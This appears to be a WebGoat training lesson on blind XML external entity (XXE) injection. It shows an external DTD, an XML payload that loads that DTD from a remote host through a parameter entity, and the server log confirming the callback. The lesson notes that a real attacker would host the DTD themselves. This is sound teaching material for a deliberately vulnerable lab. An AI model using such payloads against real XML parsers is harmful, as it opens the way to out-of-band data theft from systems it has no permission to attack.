 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference a external DTD which we control on our own server.

Our WebGoat server by default has an /xxe/ping endpoint which we can use. *This can be any server under your control.*

[source]
----
curl -i http://localhost:8080/WebGoat/XXE/ping?text=HelloWorld

will result in:

GET curl/7.45.0 HelloWorld
----

at the server side.

How do we use this endpoint to verify whether we can perform XXE?

In the `~/${user.home}/.webgoat/plugin/XXE` create a file called attack.dtd

[source]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=HelloWorld'>
----

Now submit the form and change the xml to:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/XXE/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now if we check our server log we will see:

[source]
----
GET Java/1.8.0_101 HelloWorld
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection
we are basically able to reach the same effect as we did in the beginning with the curl command.

[NOTE]
In this case we use http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd to fetch the dtd but in reality this will
of course be a host fully under the attackers control.